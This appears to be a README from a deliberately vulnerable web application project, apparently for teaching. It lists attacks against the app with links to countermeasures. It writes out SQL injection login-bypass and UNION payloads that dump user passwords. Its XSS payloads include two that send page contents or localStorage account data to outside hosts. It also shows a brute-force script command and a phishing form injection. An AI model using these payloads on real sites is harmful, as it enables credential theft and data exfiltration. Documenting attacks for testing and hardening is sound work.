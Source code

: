 # SQL Injections
Kann momentan beispielsweise durchgeführt werden, folgendes 
__" OR 1 = 1 #__ in das login-Username feld eingetragen wird. Hierdurch kann man sich einloggen ohne credentials zu nutzen.

### Union Attack 
Query kann herausgefunden werden, indem man __%'__ in das suchfeld postet oder __"__ in das login-feld.
__%' ORDER BY 4--__ to find out how many columns are in the table since this is important for the attack.
__%' UNION SELECT NULL, username, passw, NULL, NULL FROM Users --__ to return userdata.

## Maßnahmen
Escaping query values:
https://github.com/mysqljs/mysql#escaping-query-values (Placeholders: https://mariadb.com/kb/en/connector-nodejs-promise-api/)


# Cross-Site Scripting
Reflected XSS
Insert <script>alert();</script>
https://www.imperva.com/learn/application-security/reflected-xss-attacks/#:~:text=Reflected%20XSS%20attacks%2C%20also%20known,enables%20execution%20of%20malicious%20scripts.
https://www.youtube.com/watch?v=T0vxdqvW9fU&list=LL&index=3
```js
<script>alert(document.cookie); </script>
<img src="http://url.to.file.which/not.exist" onerror= window.open("https://www.google.com");>
<img src="http://url.to.file.which/not.exist" onerror= alert();>
<IMG SRC=j&#X41vascript:alert('test2')>
<script>new Image().src="https://192.165.159.122/fakepg.php?output="+document.body.innerHTML</script>
<img 
  src="https://jnx.me/img/profile.jpg" 
  style="display:none" 
  onload="fetch('https://enj917gkdfyp.x.pipedream.net/', {method: 'POST', body: localStorage.getItem('account')})"
>
```

## Maßnahmen
https://v2.vuejs.org/v2/guide/security.html#:~:text=The%20most%20fundamental%20security%20rule%20when%20using%20Vue,during%20server-side%20rendering.%20An%20example%20of%20such%20usage%3A

https://www.npmjs.com/package/sanitize-html

# Brute-force attack
Is possible because we do not check how many requests have been sent by one user

To start the brute-force script navigate to the "Attacks" directory and preform the following command:

```
python -m pip install selenium
python brute-force.py -u admin -t http://localhost:8081/loginPage -p passwords.txt
```

# Broken Encryption
Möglich wegen veraltetem Hashalgorythmus (SHA256) und weil kein Salt verwendet wird sind alle hashes deterministisch 

# HTML Injections
(Phishing)
```html
<h3>Please login to proceed</h3>
<form action=http://www.google.com>
Username:<br>
<input type="username" name="username"></br>
Password:<br>
<input type="password" name="password"></br>
<br>
<input type="submit" value="Login"></br>
```

## Maßnahmen
https://www.npmjs.com/package/sanitize-html
